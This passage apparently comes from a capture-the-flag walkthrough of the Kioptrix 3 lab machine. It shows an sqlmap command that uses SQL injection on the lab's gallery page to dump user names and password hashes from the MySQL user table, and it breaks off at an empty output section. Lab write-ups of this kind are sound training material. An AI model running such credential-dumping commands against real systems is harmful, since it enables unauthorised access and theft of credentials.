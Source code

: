 ![Desktop View](/assets/img/posts/2024-06-07-kioptrix-3-boot-to-root/pic17.png)

The columns we should focus on are `User` and `Password`. Let's proceed to dump the data from these two columns.

Command:

```shell
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=\&sort=filename#photos" -p id -D mysql -T user -C User,Password --dump
```

Output:
